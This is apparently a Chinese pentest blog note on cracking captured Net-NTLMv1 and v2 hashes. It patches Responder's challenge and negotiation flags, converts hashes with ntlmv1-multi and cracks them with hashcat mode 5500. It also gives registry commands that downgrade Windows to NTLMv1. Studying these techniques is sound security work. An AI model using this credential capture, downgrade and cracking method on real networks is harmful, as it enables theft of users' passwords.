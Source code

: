 ## Net-NTLM v1破解

只要获取到Net-NTLM v1，都能破解为NTLM hash。

**操作**

+ 修改`Responder.conf`里面的Challenge为`1122334455667788`

![chanllege](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/chanllege.png)

+ 在responder种指定--lm参数(针对SMB协议)，其他协议需要自行修改type2，比如Http协议的话，需要修改packets.py里面的NTLM_Challenge类。原来是NegoFlags的值是`\x05\x02\x89\xa2`，改成`\x05\x02\x81\xa2`

+ 监听ntlm-v1hash

  ![nossp](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/nossp.png)

  可以发现得到的hash并没有ssp字样

+ 使用[ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)里面的ntlmv1.py转换(因为获取到的是没有ssp字样的hash)

  ![ntlmv1crack](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/ntlmv1crack.png)

  最下方给出了可以直接使用crack.sh直接破解的hash

+ 将转换好的hash放到crack.sh进行破解，不过网站好像一直都在维护

**注意**：

```shell
测试时可以通过更改注册表将NET-NTLMv2降到NET-NTLMv1开启
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

**具有ssp保护措施的ntlmv1-hash**

捕获到之后可以直接拿到hashcat进行破解

![withssp](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/withssp.png)

```
hashcat -m 5500 PC$::HACK:C74588CDBA5A2DF500000000000000000000000000000000:1440E394CFEDD5139CE9E3E4900BAB542F084C7D17281F01:1122334455667788  pwd.txt
# 将监听到的hash拿去hashcat破解，pwd.txt为密码字典
```

ntlmv1已经很少使用了，如果不自己降级为ntlmv1，使用的都是v2

## Net-NTLM v2破解

暂时还没有什么破解的好方法，一般只能抓取到然后用hashcat明文离线爆破，看字典里有没有，跟我们出路ntlmv1-ssp的方式相同


